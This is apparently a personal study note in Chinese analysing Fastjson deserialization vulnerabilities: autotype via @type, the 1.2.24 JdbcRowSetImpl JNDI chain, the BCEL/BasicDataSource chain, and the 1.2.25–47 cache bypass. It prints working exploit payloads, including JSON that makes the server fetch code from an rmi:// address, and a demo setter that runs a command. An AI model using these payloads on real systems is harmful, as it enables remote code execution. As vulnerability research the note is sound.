# Fastjson 的反序列化漏洞

## 1. 漏洞探测

### 1.1 有错误回显

1. 直接传一个没有正确闭合的 json 数据，它如果有错误回显，那么其肯定包含 Fastjson 字样

### 1.2 没有错误回显

#### 1.2.1 利用 `java.net.Inet[4|6]Address` 类 -- DNSLog

1. > **https://blog.csdn.net/Adminxe/article/details/105918000**

## 2. 漏洞基本原理

### 2.1 Fastjson 另外的用法

1. 一般 Fastjson 的作用在于将一个 JSON 格式的字符串进行解析，解析成 `JSONObject` 后可以通过键取值。

2. 然而，Fastjson 还有**“将 JSON 格式的字符串转换成 JavaBean”**的功能。
    ```java
    JavaBean javaBean = JSON.parseObject(jsonStr, JavaBean.class);
    ```

### 2.2 JSON 中特殊的 key

1. 顺着 2.1 中 Fastjson 额外的思路向下，如果传入的 JSON 格式的字符串中有键为 `@type` 的一对键值对，那么它就会按照 `@type` 对应的值的类来解析字符串并生成对应的 JavaBean：
    ```json
    {
    	"@type":"com.endlessshw.fastjsonprinciple.bean.User",
        "username":"admin",
        "password":"123456"
    }
    ```

    那么它就会将 JSON 内的数据解析成一个 JavaBean。

### 2.3 解析成 JavaBean 时的特殊动作

1. 参考：

    > https://www.cnblogs.com/Aurora-M/p/15683941.html
2. JSON 的序列化分为两种：`JSON.parse()` 和 `JSON.parseObject()`。
3. **两者的区别在于，`parseObject()` 本质上同样是调用 `parse()` 进行反序列化的，只是在最后多了一步 `JSON.toJSON()` 操作。**
4. `parseObject()` 在解析成 JavaBean 时，其中的 `JSON.toJSON()` **会通过调用这个 JavaBean 的所有 setter、getter 方法来实例化**一个 JavaBean。
5. `parse()` 调用的 setter 和 getter 是有条件的：
6. 对于 setter，其需要满足：
    方法名长于 4，以 set 开头且第4位是大写字母、非静态方法、返回类型为 void 或当前类、参数个数为 1 个。正常的 setter 就满足上述条件，当然，正常的 setter 内部还要给属性赋值，这里就不需要。
    具体的源码详见：`JavaBeanInfo`：
    
7. 对于 getter，其满足的条件较为苛刻：
    方法名长于 4、不是静态方法、以 get 开头且第4位是大写字母、方法不能有参数传入、**返回值继承自 `Collection`|`Map`|`AtomicBoolean`|`AtomicInteger`|`AtomicLong`**、**对应属性没有 setter 方法**：
    
8. 因此总的来看，`parseObject()` 的危害要更大一点。

### 2.4 原理示例

1. 由上述三点，可以构建出一个最基本的漏洞原型。先创建一个 JavaBean 类，这个 JavaBean 类的 setter 方法执行命令，然后传入一个 JSON 格式的，带有 `@type` 的字符串让其解析，从而触发 getter、setter。

2. JavaBean 类如下：
    ```java
    package com.endlessshw.fastjsonprinciple.bean;
    
    import lombok.AllArgsConstructor;
    import lombok.Data;
    import lombok.NoArgsConstructor;
    
    import java.io.IOException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 随便的用户类
     * @date 2023/4/20 10:11
     */
    @AllArgsConstructor
    @NoArgsConstructor
    public class User {
        private String username;
        private String password;
    
        public String getUsername()  {
            return username;
        }
    
        public String getPassword() {
            return password;
        }
    
        // 注意这里有恶意的代码
        public void setUsername(String username) throws IOException {
            Runtime.getRuntime().exec("calc");
            this.username = username;
        }
    
        public void setPassword(String password) {
            this.password = password;
        }
    }
    ```

3. 测试类：
    ```java
    @Test
    public void testFastjson() {
        String json = "{\"@type\":\"com.endlessshw.fastjsonprinciple.bean.User\",\"username\":\"admin\",\"password\":\"123456\"}";
        JSONObject jsonObject = JSON.parseObject(json);
        System.out.println(jsonObject);
    }
    ```

## 3. Fastjson 反序列化漏洞 - 1.2.24

### 3.1 此反序列化非彼反序列化

1. Fastjson 的序列化并没有实现 Serializable 接口：
    
2. 此外，从 2.3 可知，常见的序列化实际上触发点是 `readObject()`，而 Fastjson 的触发点是满足条件的 getter/setter 方法。
3. 但是大体的思路是相同的，在以前的反序列化中，找到一个类，他的 setter 方法可控以触发恶意代码。

### 3.2 JDNI 链漏洞原理

1. JNDI 触发点：
    

2. 然后从 `getDataSourceName()` 入手，这个方法还有一个 `setDataSourceName()`，因此正好符合利用条件。

3. 开始向上找 `JdbcRowSetImpl#connect()` 的调用处，找到 `setAutoCommit()`：
    
    其实还有一个 `JdbcRowSetImpl#getDatabaseMetaData()`，不过这个方法最终会报错导致链中断。

4. 综上，通过 `setDataSourceName()` 赋值，然后通过 `setAutoCommit()` 来触发链：
    ```java
    // 有版本限制、依赖限制、而且需要出网
    String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"AutoCommit\":false}";
    JSONObject jsonObject = JSON.parseObject(payload);
    ```

5. 这个链实际上有很大的限制：

    1. 版本限制（受到 JNDI 的版本限制）
    2. 依赖限制
    3. 需要出网（JDNI 链接需要出网）

6. 不过没有用到 getter，因此在 `JSON.parse() 和 JSON.parseObject()` 下都可以使用。

### 3.3 BCEL 链原理

1. 注意：要求 JDK 版本要小于 8u251，而且有 dbcp 依赖（tomcat 中）：

    > https://cloud.tencent.com/developer/article/1730722

2. 参考：

    > https://blog.csdn.net/weixin_49248030/article/details/127989449

3. `com.sun.org.apache.bcel.internal.util.ClassLoader` 加载恶意类的代码：

    ```java
    private static void ClassLoaderGadget() throws IOException, ClassNotFoundException, InstantiationException, IllegalAccessException {
        // com.sun.org.apache.bcel.internal.util.ClassLoader 的基本的使用方法
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = fileToBinArray(new File("target/classes/Evil.class"));
        String code = Utility.encode(bytes, true);
        classLoader.loadClass("$$BCEL$$" + code).newInstance();
    }
    
    /**
         * 文件转字节码数组
         * @param file
         * @return
         */
    private static byte[] fileToBinArray(File file) {
        try {
            FileInputStream fileInputStream = new FileInputStream(file);
            return FileCopyUtils.copyToByteArray(fileInputStream);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    ```

4. 首先是为什么在 `loadClass()` 前需要加 `$$BCEL$$`，因为只有这样才能进 `if`：
    
    其中 `class_name` 就是传入的第一个参数的值。

5. 进了 `if` 之后，就会调用关键方法：`createClass(class_name)`，跟进，可以看它的执行逻辑：
    
    在 `$$BCEL$$` 之后的字节码，会被 `Utility.decode()`，因此要使用 `Utility.encode()`，然后调用 `parse()`：
    
    可以看出其作用就是将 class 文件转成 `JavaClass` 。

6. 回到 `ClassLoader#loadClass()`，结果就是返回类的 class 对象。然后调用 `newInstance()` 实例化。

7. 知道了 `ClassLoader` 的基本使用方法后，接下来的问题在于如何调用到 `classLoader.loadClass`。Tomcat 中有个类为 `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`。

    1. 首先这个类可以指定 ClassLoader，而且也可以实例化。
    2. 同时这个指定和触发都有对应的 setter 方法。

8. 在 `BasicDataSource#createConnectionFactory()` 中，指定了类加载器和类：
    
    高版本中（dbcp 8.5.78)，这里的运行逻辑发生了改变，但是最终执行的结果不变。

9. 指定 ClassLoader 在 `BasicDataSource#setDriverClassName()` 和 `BasicDataSource#setDriverClassLoader()` 中。

10. 触发对象实例化的点在 `BasicDataSource#getConnection()`。

11. 得到的最终 payload 如下：
    ```java
    private static void ClassLoaderGadget() throws IOException, ClassNotFoundException, InstantiationException, IllegalAccessException, SQLException {
        // com.sun.org.apache.bcel.internal.util.ClassLoader 的基本的使用方法
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = fileToBinArray(new File("target/classes/Evil.class"));
        String code = Utility.encode(bytes, true);
        // classLoader.loadClass("$$BCEL$$" + code).newInstance();
    
        // BasicDataSource basicDataSource = new BasicDataSource();
        // basicDataSource.setDriverClassLoader(classLoader);
        // basicDataSource.setDriverClassName("$$BCEL$$" + code);
        // basicDataSource.getConnection();
    
        // payload
        String payload = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"," +
            "\"DriverClassName\":\"$$BCEL$$" + code + "\"," +
            "\"DriverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";
        JSONObject jsonObject = JSON.parseObject(payload);
    
    }
    ```

    由于调用的是 `parseObject()`，因此最终的 `getConnection()` 会自动调用。

## 4. Fastjson 高版本绕过

### 4.1 1.2.25-47 版本绕过 - JDNI 链

1. 对比 1.2.24，该版本多了一步：
    
    原先 1.2.24 时，这里直接进行类加载，但是现在这里多了个检查函数。

2. 分析该函数的逻辑：
    

    一般情况下，`autoTypeSupport = false`，然后 `expectClass` 为 null。

3. 根据上述变量条件，首先黑白名单基本不考虑，再根据逻辑判断，最终选择走 `clazz == null` 的分支。走这就要求 `clazz` 要不为空，而 `clazz` 是从缓存中获取的，那么接下来就是想办法“如何往缓存中插入恶意类，从而绕过黑白名单检测”。

4. 寻找 usage，找到 `put` 的地方，最终确定在 `TypeUtils#loadClass()` 中。然后再找这个方法的 usage。最终在 `MiscCodec#deserialze()` 中：
    

5. 观察一下，`MiscCodeC` 继承了 `ObjectSerializer, ObjectDeserializer` ，所以它应该是序列化反序列化器，然后在 `ParserConfig` 类中，`deserializers` 中存放了不同的类所对应的序列化器：
    然后 `MiscCodec#deserialze()` 正是它反序列化时调用的方法，其中的 clazz 就是被序列化类的 class 字节码类型。

6. 因此，**如果传入一个 `Class` 类给反序列化**，那么 Fastjson 就会调用 `MiscCodec#deserialze()` 进行处理，然后就会进入到 `loadClass()` 中，从而会将传入的 `strVal` 所代表的类放入缓存中。

7. 如果 `strVal` 指代的是恶意类，那么就把恶意类放入到缓存中，这样就会绕过黑白名单检测。所以要向 `strVal` 中赋值。
    
    todo 我也不懂为什么要往 `val` 中赋值，但 `val` 赋值后确实会到 `strVal` 中。

8. 最终 payload 如下：
    ```java
    private static void Bypass1_2_25_JNDI() {
        String payload = "{{\"@type\":\"java.lang.Class\", \"val\":\"com.sun.rowset.JdbcRowSetImpl\"}," +
            "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"AutoCommit\":false}}";
        JSON.parse(payload);
    }
    ```

### 4.2 1.2.25-47 BCEL 链失效原因

1. 即使通过两次反序列化 `Class` 类向缓存中放入恶意对象，但是由于反序列化 `BasicDataSource` 时，其内部的 `DriverClassLoader` 由于又指定了一个类，从而导致进入：
    
    最终执行：
    `config.checkAutoType(typeName, expectClass)` 去实例化 `BasicDataSource` 内部的 `com.sun.org.apache.bcel.internal.util.ClassLoader`，由于 `expectClass` 不为空了，因此进入黑白名单判断的逻辑当中，从而绕过失败！

### 4.3 1.2.47 前 `autoTypeSupport` 为 true 的绕过

1. 详见：

    > https://www.cnblogs.com/Aurora-M/p/15683941.html
    > https://www.cnblogs.com/cmx666/p/15136664.html

### 4.4 高版本绕过学习 todo

1. https://www.anquanke.com/post/id/232774#h2-19


